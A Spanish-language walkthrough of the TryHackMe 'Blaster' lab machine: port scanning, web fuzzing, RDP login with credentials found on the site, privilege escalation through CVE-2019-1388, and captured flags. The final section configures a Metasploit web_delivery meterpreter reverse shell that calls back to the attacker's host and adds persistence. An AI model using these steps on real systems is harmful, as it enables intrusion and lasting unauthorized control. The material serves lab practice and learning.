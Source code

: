 # Blaster v3

## Escaneo de puertos

Escaneamos la IP de la máquina usando `nmap`para encontrar los puertos abiertos y los servicios que tengan.

```
nmap -A -T4 -p- 10.10.10.249
```

Hay dos puertos abiertos: un servidor en web en el puerto 80 y un RDP en el 3389.

![Escaneo de puertos](images/Pasted%20image%2020250221152920.png)
## Fuzzing

Accedemos al servidor web.

![Servidor web](images/Pasted%20image%2020250221152959.png)

Es un servidor de Windows Server de IIS (Internet Information Services).

Abrimos el dirbuster y le hacemos fuzzing a la web para encontrar más directorios.

![Dirbuster](images/Pasted%20image%2020250221153206.png)

Encontramos un directorio llamado `retro`que puede ser importante.

![Directorio retro](images/Pasted%20image%2020250221153427.png)

## Investigating

Accedemos al mismo.

```
http://10.10.10.249/retro/
```

![Acceso retro](images/Pasted%20image%2020250221153510.png)

Encontramos un username, `Wade`y vemos que su contraseña está relacionada con la película "Ready Player One".

![Contraseña relacionada](images/Pasted%20image%2020250221153739.png)

Buscamos el nombre del avatar de Wade en el juego. Es `Parzival`.

![Avatar](images/Pasted%20image%2020250221153906.png)

Accedemos por el puerto 3389 donde está el servicio RDP funcionando. Usamos las credenciales que hemos encontrad.

```
xfreerdp /u:wade /p:parzival /v:10.10.10.249
```

![RDP acceso](images/Pasted%20image%2020250221154228.png)

Se nos abre el escritorio remoto del cliente Wade.

![Escritorio remoto](images/Pasted%20image%2020250221154325.png)

Abrimos `user.txt`y tenemos la primera flag.

![user.txt](images/Pasted%20image%2020250221154417.png)

```
THM{HACK_PLAYER_ONE}
```

Miramos por la máquina y encontramos este CVE:

```
CVE-2019-1388
```

## Escalada de privilegios

También encontramos un ejecutable en el escritorio `hhupd`.

![hhupd](images/Pasted%20image%2020250221155633.png)

Lo ejecutamos y nos pide los credenciales del Administrador. Le damos a "Show more details".

![Detalles de hhupd](images/Pasted%20image%2020250221155916.png)

Y luego "Show information about the publisher's certificate".

![Certificado](images/Pasted%20image%2020250221155950.png)

Hacemos clic en "VeriSign Commercial Software Publishers CA".

![VeriSign](images/Pasted%20image%2020250221160106.png)

Cerramos la ventana y se los habrá abierto una pestaña nueva en Internet Explorer que no cargará porque no hay Internet.

![Internet Explorer](images/Pasted%20image%2020250221162229.png)

Intentamos guardar la página haciendo clic en el engranaje arriba a la derecha y dándole a "File" y "Save as". Nos aparece un mensaje de error.

![Error al guardar](images/Pasted%20image%2020250221162407.png)

Le damos a "OK" y en el explorador de archivos escribimos `cmd.exe`.

![cmd.exe](images/Pasted%20image%2020250221162543.png)

Se nos abre el cmd y escribimos `whoami`para verificar que hemos hecho bien la escalada de privilegios.

![whoami](images/Pasted%20image%2020250221162633.png)

Nos movemos al escritorio del Administrador y tenemos un fichero llamado `root.txt`.
![root.txt](images/Pasted%20image%2020250221162727.png)

Y obtenemos la flag:

![Flag root.txt](images/Pasted%20image%2020250221162811.png)

```
THM{COIN_OPERATED_EXPLOITATION}
```

## Metasploit

Accedemos a la consola de metasploit.

```
msfconsole
```

Seleccionamos el siguiente exploit:

```
use exploit/multi/script/web_delivery
```

Mostramos los objetivos y seleccionamos el 2.

```
show targets
set target 2
```

![Metasploit targets](images/Pasted%20image%2020250221163459.png)

Mostramos las opciones y asignamos la IP de nuestro equipo local en la VPN de tryhackme por el puerto 8082.

```
set LHOST 10.8.3.33
set LPORT 8082
```

Seleccionamos el siguiente payload:

```
set payload windows/meterpreter/reverse_http
```

![Payload](images/Pasted%20image%2020250221164025.png)

Ejecutamos el exploit:

```
run -j
```

![Ejecutando exploit](images/Pasted%20image%2020250221164132.png)

Copiamos el código anterior en el `cmd.exe`de antes y tendremos acceso remoto completo al sistema.

![Acceso remoto](images/Pasted%20image%2020250221164301.png)

Con meterpreter, para que tenga persistencia escribimos el siguiente comando:

```
run persistence -X
```

















